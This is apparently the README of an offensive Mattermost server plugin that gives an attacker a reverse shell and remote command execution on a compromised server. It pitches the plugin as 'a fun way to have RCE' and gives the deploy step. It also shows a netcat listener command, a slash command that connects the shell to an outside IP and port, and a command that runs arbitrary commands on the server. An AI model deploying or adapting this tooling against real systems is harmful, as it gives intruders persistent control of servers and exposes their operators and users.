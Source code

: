 # Mattermost Reverse Shell plugin

This plugin implements a reverse shell as a server plugin. Also, you can execute commands and have the plugin post the stdout, stderr of the command as a message.

## Why?

If you compromise a Mattermost server, this is a fun way to have RCE.

## Running the plugin

```
make && make deploy
```

Then... start a reverse shell listener
```
nc -lvp 1337
```

and connect
```
/shell connect 1.2.3.4 1337
```

Also, you can execute commands on the server! `/shell exec command [args]`

